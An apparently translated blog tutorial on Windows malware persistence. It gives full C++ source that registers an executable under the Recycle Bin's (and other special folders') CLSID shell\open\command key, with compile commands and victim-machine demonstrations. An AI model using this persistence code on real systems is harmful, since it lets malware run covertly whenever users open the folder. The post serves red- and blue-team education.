 \newpage
\subsection{87. разработка вредоносного ПО: закрепление (persistence) - часть 21. Корзина, Мои документы – обработчик расширения COM. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через модификацию обработчика расширения COM для Корзины.     

### список CLSID

Некоторые специальные папки в операционной системе идентифицируются уникальными строками:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Мой компьютер     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Мои документы     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Сетевое окружение     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Сетевые компьютеры     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Принтеры и факсы      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Корзина       

Добавление подраздела `open\command` к CLSID и добавление нового действия для ключа `shell` приведет к выполнению значения, хранящегося в `\command`.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт закрепления (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как можно видеть, логика проста.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query \
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" \
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге просто компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Наконец, запускаем этот скрипт закрепления на машине жертвы и снова проверяем реестр:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

Как можно видеть, добавлен подраздел и значение ключа установлено.    

Затем пробуем открыть Корзину:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

Если открыть `ProcessExplorer` и посмотреть свойства `hack.exe`:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

Можно заметить, что родительским процессом является `explorer.exe (1680)`.     

Идеально! =^..^=    

### а что насчет других CLSID из списка?    

Я внес небольшое изменение в скрипт закрепления:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Компилируем и запускаем на машине жертвы:      

```powershell
.\pers.exe
reg query \
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

Но... Не работает у меня в Windows 10, так как используется это дурацкое меню "Пуск", и я не могу найти папку "Мои документы" на рабочем столе.    

Я также попробовал этот трюк с другим CLSID на машине `Windows 7 x86`. Он сработал для папки "Мой компьютер".     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

Я не знаю, использует ли этот трюк какая-либо APT-группа или семейство вредоносного ПО.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
